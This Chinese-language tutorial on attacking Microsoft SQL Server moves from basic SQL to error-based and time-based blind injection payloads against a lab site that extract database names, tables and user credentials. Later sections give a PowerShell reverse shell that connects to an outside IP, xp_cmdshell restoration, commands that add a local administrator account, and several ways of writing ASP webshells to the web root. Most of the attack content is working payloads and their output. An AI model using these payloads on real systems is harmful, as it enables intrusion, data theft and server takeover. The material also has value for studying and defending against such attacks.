





select 从数据库中获取数据 update 更新数据库中的数据 delete 删除数据 insert into 添加数据
数据库定义语言(DDL) 主要用于创建，删除，增加索引，键，约束等
1 2 3 4 5 6 7
CREATE DATABASE - 创建新数据库 ALTER DATABASE - 修改数据库 CREATE TABLE - 创建新表 ALTER TABLE - 变更（改变）数据库表 DROP TABLE - 删除表 CREATE INDEX - 创建索引（搜索键） DROP INDEX - 删除索引
select * from user; select * from user where id=1; 查询id为1的数据
and，or select * from user where id>3 and id<5 查询id大于3和小于5的数据 select * from user where id>3 or id<5 查询id大于3或小于5的数据
order by select * from user order by name;根据name进行排序 select * from user order by name desc; 降序排列 select * from user order by name asc;升序排序
top select top 1 name from users，查询user表中name列的第一条数据 select top 1 name from users where name !="a" 查询user表中name列不等于a的数据，假设第一条数据的值为a，那么就可以通过该方法获取到第二条的数据
like 通配符 select * from teacher where name like 'a%'; --查找name是以a开头的所有列 select * from teacher where name like '%b'; --查找name是以b结尾的所有列 select * from teacher where name like 'a_'; --查找name是以a开头后面只有一个字符 的所有列 select * from teacher where name like '[ac]%'; -- 查找name是以a/c开头的所有列 select * from teacher where name like '[^ac]%'; --查找name 不是以a/c开头的所有列
between and select * from user where name between 1 and 2 查找那么介于1和2之间的数据
3.insert into语句
insert语句用户向表中插入数据
1 2 3 4 5 6
insert into 表名称 values(值1，值2) 值的数量要与表的列数量要相等
insert into 表名称(列1，列2) values(值1，值2) 向表的指定列插入指定的值
举例; insert into users(id,username,password) values(1,'a','b')
SELECT top 1 id, [name] = stuff((SELECT ‘,’ + [name] FROM syscolumns sys WHERE sys.id = syscolumns.id FOR xml path(‘’)) , 1 , 1 , ‘’) FROM syscolumns where id =1611152785
返回为1时证明有该权限 and 1=(select IS_SRVROLEMEMBER('sysadmin'));-- and 1=(select IS_SRVROLEMEMBER('serveradmin'));-- and 1=(select IS_SRVROLEMEMBER('setupadmin'));-- and 1=(select IS_SRVROLEMEMBER('securityadmin'));-- and 1=(select IS_SRVROLEMEMBER('diskadmin'));-- and 1=(select IS_SRVROLEMEMBER('bulkadmin'));-- and 1=(select IS_MEMBER('db_owner'));
and 1=(select top 1 name from master..sysdatabases where dbid>4)
http://192.168.147.161/less-1.asp?id=1%27%20 and 1=(select top 1 name from master..sysdatabases where dbid>4) --+ #返回值 [Microsoft][ODBC SQL Server Driver][SQL Server]在将 nvarchar 值 'ReportServer' 转换成数据类型 int 时失败
获取第二个数据库 http://192.168.147.161/less-1.asp?id=1%27%20 and 1=(select top 1 name from master..sysdatabases where dbid>4 and name!='ReportServer') --+
通过添加and语句使得查询第二条语句，可以不断进行累加，获取所有的数据库名 http://192.168.147.161/less-1.asp?id=1%27%20 and 1=(select top 1 name from master..sysdatabases where dbid>5 ) 修改bid的值可以达到相同的效果
获取所有的数据库名 http://192.168.147.161/less-1.asp?id=1%27%20 and 1=(select name from master..sysdatabases for xml path) --+
在源代码中可以看到所有的数据库名
获取表名
获取表明可以通过sysobjects中xtype为‘U’的表进行查询
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15
and 1=(select top 1 name from sysobjects where xtype='U') 获取第一个的xtype=u的数据表
http://192.168.147.161/less-1.asp?id=1%27%20 and 1=(select top 1 name from sysobjects where xtype='U') --+
返回值： [Microsoft][ODBC SQL Server Driver][SQL Server]在将 nvarchar 值 'emails' 转换成数据类型 int 时失败。
同理可以增加限定条件获取第二个表的名称 http://192.168.147.161/less-1.asp?id=1%27%20 and 1=(select top 1 name from sysobjects where xtype='U' and name!='emails') --+ 返回值： [Microsoft][ODBC SQL Server Driver][SQL Server]在将 nvarchar 值 'uagents' 转换成数据类型 int 时失败
同样可以通过xpath 获取所有的数据表 http://192.168.147.161/less-1.asp?id=1%27%20 and 1=(select name from sysobjects for xml path) --+
and 1=(select top 1 name from syscolumns where id=(select id from sysobjects where name='users')) #假设已知数据表名为users时查询数据表中的所有的字段
http://192.168.147.161/less-1.asp?id=1%27%20 and 1=(select top 1 name from syscolumns where id=(select id from sysobjects where name='users')) --+ #返回值 [Microsoft][ODBC SQL Server Driver][SQL Server]在将 nvarchar 值 'id' 转换成数据类型 int 时失败。
获取第二个 http://192.168.147.161/less-1.asp?id=1%27%20 and 1=(select top 1 name from syscolumns where id=(select id from sysobjects where name='users')and name!='id') --+ #返回值 [Microsoft][ODBC SQL Server Driver][SQL Server]在将 nvarchar 值 'username' 转换成数据类型 int 时失败。
获取所有的列 http://192.168.147.161/less-1.asp?id=1%27%20 and 1=(select name from syscolumns where id=(select id from sysobjects where name='users')for xml path) --+
[Microsoft][ODBC SQL Server Driver][SQL Server]在将 nvarchar 值 'idusernamepassword' 转换成数据类型 int 时失败。
在源码中可以看到分开的数据列名
获取数据
1 2 3 4 5 6
直接通过select读取数据
http://192.168.147.161/less-1.asp?id=1%27%20 and 1=(select top 1 username from users)--+ #返回值 [Microsoft][ODBC SQL Server Driver][SQL Server]在将 varchar 值 'Dumb' 转换成数据类型 int 时失败。 其他读取值和上面类似
http://192.168.147.161/less-2.asp?id=1 and 1=(select top 1 table_name from test.information_schema.tables)
http://192.168.147.161/less-2.asp?id=1 and 1=(select top 1 name from sysobjects where xtype='U') #获取所有的表 http://192.168.147.161/less-2.asp?id=1 and 1=(select table_name from test.information_schema.tables for xml path(''))


6.查询所有的列
1 2 3 4 5
http://192.168.147.161/less-2.asp?id=1 and 1=(select top 1 name from syscolumns where id=(select id from sysobjects where name='users')) 读取users表中的第一个name的值
http://192.168.147.161/less-2.asp?id=1 and 1=(select name from syscolumns where id=(select id from sysobjects where name=(select top 1 name from sysobjects where xtype='U')) for xml path)
7.读取数据
1 2 3 4 5 6 7 8
http://192.168.147.161/less-2.asp?id=1 and 1=(select id,username,password from test..users for xml path)
读取users表下的id，username，password字段的所有的值
http://192.168.147.161/less-2.asp?id=-1 union all select 1,username,password from users where id=3
select username from test..users where id=1 waitfor delay ‘0:0:2’ 这样id=1的条件是存在的，那么响应时间就会大于2秒钟，那么基本可以判断存在注入点！
猜测数据库
猜测数据库时可以通过前面说到的if语句配合延时进行注入查询
1 2 3 4
if(exists(select name from master..sysdatabases where dbid=5))waitfor delay '0:0:2' 通过查询master.dbo.sysdatabases表中的用户表dbid的值大于五是否存在来判断是否存在用户表（当dbid>4时的表都是用户表）,如果成功延时，则证明存在用户表
猜测数据库长度
1 2 3
if ((select count(*) from master.dbo.sysdatabases where dbid=5 and len(name)=12)=1) waitfor delay '0:0:3' --+
if (ascii(substring((select top 1 name from master.dbo.sysdatabases where dbid=8 ),1,1))=116) waitfor delay '0:0:3' --+
通过不断替换 116的值，只到执行了延时效果时，证明该字符为正确的 #猜解第二个数据 if (ascii(substring((select top 1 name from master.dbo.sysdatabases where dbid=8 ),2,1))=101) waitfor delay '0:0:3' --+ 依次类推，不断的改变截取不同位置的字符，达到对数据库名的猜解为test
猜测表名长度
猜测表名可以在test..sysobjects表中进行查询，猜解的方式和数据库类似
1 2
if ((select count(*) from test..sysobjects where xtype='U' and len(name)=5)=1) waitfor delay '0:0:3' --+ 当长度为5时，延时成功，证明表长度为5
猜解表名
1 2 3 4 5 6 7 8 9 10
#猜解第一个字符为e if((select count(*) from test..sysobjects where name in (select top 1 name from test..sysobjects where xtype='U')and ascii(substring(name,1,1))=101) =1) waitfor delay '0:0:3' --+ #猜解第二个字符为m if((select count(*) from test..sysobjects where name in (select top 1 name from test..sysobjects where xtype='U')and ascii(substring(name,2,1))=109) =1) waitfor delay '0:0:3' --+ 依次类推可以获取所有的数据 #通过添加name!="前一个表表名" if((select count(*) from test..sysobjects where name in (select top 1 name from test..sysobjects where xtype='U' and name!='emails')and ascii(substring(name,1,1))=117) =1) waitfor delay '0:0:3' --+ 通过该条件获取下面的表的表名
猜解列名长度
猜解列名是通过syscolumns表进行查询获取，已知表名是users
1 2 3 4 5 6 7 8 9 10 11 12 13 14
#猜表的第一列的第一个字符 if(exists(select top 1 name from test..syscolumns where id=(select top 1 id from test..sysobjects where name='users') and ascii(substring(name,1,1))=117)) waitfor delay '0:0:3' --+ #猜第二个字符 if(exists(select top 1 name from test..syscolumns where id=(select top 1 id from test..sysobjects where name='users') and ascii(substring(name,2,1))=115)) waitfor delay '0:0:3' --+
以此类推获取第一条数据的所有字段
第二种方式： if(ascii(substring((select top 1 name from syscolumns where id=(select id from sysobjects where xtype='U' and name='users')),1,1))=105) waitfor delay '0:0:3' 换种语法而已 获取第二个字符 if(ascii(substring((select top 1 name from syscolumns where id=(select id from sysobjects where xtype='U' and name='users')),2,1))=105) waitfor delay '0:0:3'
数据查询
假设我们已经知道了数据表是users，字段是username,password
1 2 3 4
if(ascii(substring((select top 1 username from users),1,1))=68) waitfor delay '0:0:3' --+ #第二个字符数据 if(ascii(substring((select top 1 username from users),2,1))=117) waitfor delay '0:0:3' --+ 依次获取其他字符
select * from master.dbo.sysobjects where xtype='x' and name='xp_cmdshell' 当查询到具体信息时，代表该存储过程存在！

删除xp_cmdshell
注意：在 SQL Server 2008 和 SQL Server 2005 中，sp_dropextendedproc 不会删除系统扩展存储过程。但系统管理员应拒绝 public 角色对扩展存储过程的 EXECUTE 权限。在 SQL Server 2000 中，sp_dropextendedproc 可用于删除任何扩展存储过程。
删除语句：
1 2 3
drop procedure sp_addextendedproc drop procedure sp_oacreate exec sp_dropextendedproc 'xp_cmdshell'
if not exists (select * from dbo.sysobjects where id = object_id(N'[dbo].[xp_cmdshell]')) dbcc addextendedproc ('xp_cmdshell','xplog70.dll') if not exists (select * from dbo.sysobjects where id = object_id(N'[dbo].[xp_dirtree]')) dbcc addextendedproc ('xp_dirtree','xpstar.dll') if not exists (select * from dbo.sysobjects where id = object_id(N'[dbo].[xp_fixeddrives]')) dbcc addextendedproc ('xp_fixeddrives','xpstar.dll') if not exists (select * from dbo.sysobjects where id = object_id(N'[dbo].[xp_regwrite]')) dbcc addextendedproc ('xp_regwrite','xpstar.dll') if not exists (select * from dbo.sysobjects where id = object_id(N'[dbo].[xp_regread]')) dbcc addextendedproc ('xp_regread','xpstar.dll')
#A simple and small reverse shell by samratashok's Nishang framework. Change the Host IP Address and Port according to your setup as described in the README file of the script. $sm=(New-Object Net.Sockets.TCPClient("10.88.14.45",4444)).GetStream();[byte[]]$bt=0..65535|%{0};while(($i=$sm.Read($bt,0,$bt.Length)) -ne0){;$d=(New-Object Text.ASCIIEncoding).GetString($bt,0,$i);$st=([text.encoding]::ASCII).GetBytes((iex$d2>&1));$sm.Write($st,0,$st.Length)}
select * from openrowset('microsoft.jet.oledb.4.0' ,';database=c:\windows\system32\ias\ias.mdb' ,'select shell("cmd.exe /c net user quan 121345 /add")')

sql server2008
4将quan用户添加至管理员组
1
select * from openrowset('microsoft.jet.oledb.4.0' ,';database=c:\windows\system32\ias\ias.mdb' ,'select shell("cmd.exe /c net localgroup administrators quan /add")')
创建触发器的语法： CREATE TRIGGER trigger_name ON table_name [WITH ENCRYPTION] FOR | AFTER | INSTEAD OF [DELETE, INSERT, UPDATE] AS T-SQL语句 GO
创建触发器
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15
创建触发当执行update操作时执行计算器的触发器 set ANSI_NULLS on go set QUOTED_IDENTIFIER on go create trigger [test1] on [users] AFTER UPDATE as begin execute master..xp_cmdshell 'cmd.exe /c calc.exe' end go 然后执行update操作 update test..users set username='admin4' where username='admin' 成功触发触发器
#查看状态 select * from master.dbo.sysobjects where xtype='x' and name='SP_OACREATE' #查看是否存在，返回1则代表存在 select count(*) from master.dbo.sysobjects where xtype='x' and name='SP_OACREATE'
declare @o int exec sp_oacreate 'Shell.Application',@o out exec sp_oamethod @o, 'ShellExecute',null,'cmd.exe','cmd /c net user >C:\1.txt','C:\windows\sytsem32','','1'
win2008创建失败，原因未知
写入webshell
1 2 3 4
declare @f int,@g int exec sp_oacreate 'Scripting.FileSystemObject',@f output EXEC SP_OAMETHOD @f,'CreateTextFile',@f OUTPUT,'c:\inetpub\wwwroot\shell.aspx',1 EXEC sp_oamethod @f,'WriteLine',null,'<%@ Page Language="Jscript"%><%var a = "un";var b = "safe";Response.Write(eval(Request.Item["z"],a+b));%>'
backup database mssqllibs to disk='C:\inetpub\wwwroot\mssql.bak'
2.创建一个新表
1
create table cmd (a image);
3.插入数据
1 2
insert into cmd values(0x3C25657865637574652872657175657374282261222929253E) #values的值为<%execute(request("a"))%>
4.重新备份文件
1
backup database mssqllibs to disk='C:\inetpub\wwwroot\hhh.asp' WITH DIFFERENTIAL,FORMAT;
sql server 2008复现失败
log备份getshell
1 2 3 4 5 6 7
alter database testdb set RECOVERY FULL backup database testdb to disk = 'c:\bak.bak' create table cmd (a image) backup log testdb to disk = 'c:\aaa.bak' with init insert into cmd (a) values (0x3C25657865637574652872657175657374282261222929253E) #一句话密码是a backup log testdb to disk = 'C:\inetpub\wwwroot\shell.asp'